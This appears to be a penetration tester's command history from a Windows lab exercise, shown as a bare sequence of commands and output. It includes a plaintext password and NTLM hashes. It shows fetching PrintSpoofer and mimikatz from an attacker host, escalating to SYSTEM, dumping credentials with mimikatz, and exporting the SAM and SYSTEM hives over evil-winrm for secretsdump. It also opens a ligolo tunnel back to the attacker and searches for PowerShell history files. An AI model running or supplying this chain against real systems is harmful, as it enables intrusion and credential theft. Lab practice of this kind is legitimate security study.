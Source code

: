 # Command History
```c
// xfreerdp3 /u:Eric.Wallows /p:EricLikesRunning800 /v:192.168.186.147
ssh Eric.Wallows@192.168.148.147

// upload printspoofer
iwr -uri http://192.168.45.185/PrintSpoofer64.exe -Outfile printspoofer.exe
//upload mimikatz
iwr -uri http://192.168.45.186/mimikatz.exe -Outfile mimikatz.exe

//get system
.\printspoofer.exe -i -c cmd

// run mimikatz
privilege::debug
sekurlsa::logonpasswords
// below need to tunnel to MS02


reg save HKLM\SAM C:\Users\eric.wallows\Documents\SAM
reg save HKLM\SYSTEM C:\Users\eric.wallows\Documents\SYSTEM

// connect with winrm to download
evil-winrm -i 192.168.150.147 -u eric.wallows -p EricLikesRunning800

download "C:\Users\eric.wallows\Documents\SAM"
download "C:\Users\eric.wallows\Documents\SYSTEM"

impacket-secretsdump -sam SAM -system SYSTEM LOCAL
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:3c4495bbd678fac8c9d218be4f2bbc7b:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:11ba4cb6993d434d8dbba9ba45fd9011:::
    Mary.Williams:1002:aad3b435b51404eeaad3b435b51404ee:9a3121977ee93af56ebd0ef4f527a35e:::
    support:1003:aad3b435b51404eeaad3b435b51404ee:d9358122015c5b159574a88b3c0d2071:::

upload ../../tools/ligolo/agent.exe
upload ../../tools/ligolo/wintun.dll

// on attacker
sudo ./proxy -selfcert -laddr 0.0.0.0:443

// on target
agent.exe -connect 192.168.45.186:443 -ignore-cert

Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include ConsoleHost_history.txt -Force

type C:\Users\eric.wallows\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt


upload printspoofer64

.\PrintSpoofer64.exe -i -c powershell.exe

// back on mimikatz
lsadump::cache
    // Domain : MS01
    // SysKey : a5403534b0978445a2df2d30d19a7980

    // Local name : MS01 ( S-1-5-21-2114389728-3978811169-1968162427 )
```